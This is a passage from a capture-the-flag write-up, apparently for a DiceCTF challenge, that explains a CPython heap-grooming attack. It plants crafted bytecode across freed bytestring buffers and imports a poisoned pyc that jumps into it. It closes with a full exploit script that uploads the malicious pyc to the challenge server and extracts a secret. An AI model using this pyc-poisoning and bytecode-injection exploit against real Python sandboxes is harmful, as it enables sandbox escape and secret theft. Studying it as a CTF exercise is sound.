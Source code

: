 ```  
del A0  
del A2  
del A4  
...  
del A94  
del A96  
del A98  
```

The allocated bytestrings will be mostly sequential in memory, so the heap
might look like this:

```  
<evil bytecode>  
<chunk in freelist>  
<evil bytecode>  
<chunk in freelist>  
...  
<chunk in freelist>  
<evil bytecode>  
```

Even if there are some intermediate allocations, it is very likely that
another buffer of the same length as our evil bytecode (in this case, 16
bytes) would use a freed chunk in front of one of the buffers we want to jump
into. So if we unmarshal a code object whose `co_code` is 16 bytes long, we
should have a constant offset. The exact value of the offset depends on
metadata and implementation details, but checking in GDB shows it to be 0x40
bytes. After following the allocate/free procedure above and importing a pyc
file with `JUMP_ABSOLUTE (0x40)`, we've successfully leaked `FROZEN_SECRET`:

```python  
import uuid  
import socket  
import re

u = bytes(str(uuid.uuid4()).replace("-", ""), encoding="utf-8")

def run(session, code, option=b"1"):  
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)  
	s.connect(("dicec.tf", 31337))  
	s.sendall(u+b"\n")  
	s.sendall(option+b"\n")  
	s.sendall(session+b"\n")  
	s.sendall(code+b"\n")  
	r = True  
	output = ""  
	while r:  
		r = s.recv(4096)  
		output += r.decode("utf-8")  
	return output

run(b"a.py", b"1+1\n")  
run(b"b", b"import a\n2+2\n")  
run(b"c.py", b"a = 1337\n")  
run(b"__pycache__/c.cpython-39.pyc", open("payload.pyc", "rb").read()+b"\n")  
leak = run(b"d", b"\n".join('A{} = b"{}"'.format(i,
'\\x90\\xff\\x90\\xff\\x90\\xb3\\x64\\x3c\\x46\\x00\\x53\\x00'+'\\xff'*4).encode("utf-8")
for i in range(100))+b"\n"+b"\n".join("del A{}".format(i).encode("utf-8") for
i in range(0, 100, 2))+b"\n"+b"import c\n")  
frozen = re.compile(r'\x1B(?:[@-Z\\-_]|\[[0-?]*[ -/]*[@-~])').sub('',
leak).split("'")[1]  
print(frozen)  
```
